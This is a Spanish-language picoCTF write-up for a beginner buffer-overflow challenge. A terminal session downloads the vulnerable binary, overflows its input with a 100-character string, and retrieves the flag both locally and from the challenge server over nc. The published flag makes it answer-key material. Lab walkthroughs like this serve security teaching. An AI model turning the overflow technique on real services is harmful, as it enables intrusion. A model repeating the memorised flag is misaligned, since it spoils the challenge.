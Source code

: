 ## Objetivo
Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/174/vuln). You can view source [here](https://artifacts.picoctf.net/c/174/vuln.c).
## Solución
```
┌──(kali㉿kali)-[~/picoCTF/BinExp/BufferOverflow0]
└─$ wget https://artifacts.picoctf.net/c/174/vuln                                             
--2024-11-13 00:01:28--  https://artifacts.picoctf.net/c/174/vuln
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 13.225.222.125, 13.225.222.120, 13.225.222.105, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|13.225.222.125|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16016 (16K) [application/octet-stream]
Saving to: ‘vuln’

vuln                         100%[============================================>]  15.64K  --.-KB/s    in 0.009s  

2024-11-13 00:01:29 (1.62 MB/s) - ‘vuln’ saved [16016/16016]

                                                                                                                  
┌──(kali㉿kali)-[~/picoCTF/BinExp/BufferOverflow0]
└─$ chmod +x vuln  
                                                                                                                  
┌──(kali㉿kali)-[~/picoCTF/BinExp/BufferOverflow0]
└─$ ./vuln 
Please create 'flag.txt' in this directory with your own debugging flag.
                                                                                                                  
┌──(kali㉿kali)-[~/picoCTF/BinExp/BufferOverflow0]
└─$ echo "picoCTF{banderota}" > flag.txt
                                                                                                                  
┌──(kali㉿kali)-[~/picoCTF/BinExp/BufferOverflow0]
└─$ ./vuln                              
Input: holaYoSoyMateo
The program will exit now
                                                                                                                  
┌──(kali㉿kali)-[~/picoCTF/BinExp/BufferOverflow0]
└─$ ./vuln
Input: palabrotasPALABROTASpalabrotasPALABROTASpalabrotasPALABROTASpalabrotasPALABROTASpalabrotasPALABROTAS
picoCTF{banderota}
                                                                                                                  
┌──(kali㉿kali)-[~/picoCTF/BinExp/BufferOverflow0]
└─$ nc saturn.picoctf.net 54804
Input: palabrotasPALABROTASpalabrotasPALABROTASpalabrotasPALABROTASpalabrotasPALABROTASpalabrotasPALABROTAS
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

- ##### Al introducir una cadena de texto de 100 caracteres, obtenemos la bandera.
```
Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```
## Notas Adicionales
## Referencias
- [PicoCTF](https://play.picoctf.org)
- [PicoCTF Writeups](https://www.youtube.com/playlist?list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&authuser=0)